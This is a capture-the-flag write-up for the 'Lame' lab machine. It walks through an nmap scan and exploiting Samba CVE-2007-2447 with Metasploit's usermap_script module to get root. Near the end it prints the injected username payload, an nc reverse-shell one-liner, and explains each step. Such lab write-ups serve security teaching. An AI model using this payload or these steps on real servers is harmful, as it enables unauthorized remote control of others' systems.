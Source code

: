 # Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and capturing the root flag.

Perform an `nmap` scan using the `-sV` switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the `username field /=nohup mkfifo /tmp/hago; nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago``:`
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
